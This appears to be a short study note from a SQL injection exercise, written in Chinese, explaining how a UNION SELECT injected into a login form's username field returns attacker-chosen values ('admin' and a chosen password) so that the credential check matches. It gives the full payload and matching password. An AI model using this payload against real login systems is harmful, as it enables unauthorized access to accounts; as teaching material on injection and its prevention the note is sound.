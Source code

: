 * purpose

使用union select返回我們自訂的值 強制比對成功


假設我們知道他只有兩個欄位

ddd 是我們任意填的
username:  xxxxxxx') union SELECT 'admin','ddd'--
password: ddd